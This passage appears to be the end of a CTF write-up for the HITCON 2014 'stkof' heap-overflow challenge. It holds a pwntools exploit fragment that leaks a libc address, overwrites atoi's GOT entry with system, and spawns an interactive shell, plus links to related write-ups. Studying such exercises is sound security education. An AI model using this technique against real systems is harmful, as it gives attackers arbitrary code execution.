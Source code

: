 ```
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))
    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```
### Related Link
1. [ctf-writeup-hitcon-ctf-2014-stkof-or-modern-heap-overflow](http://acez.re/ctf-writeup-hitcon-ctf-2014-stkof-or-modern-heap-overflow/)
2. [CTF WiKi](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/)
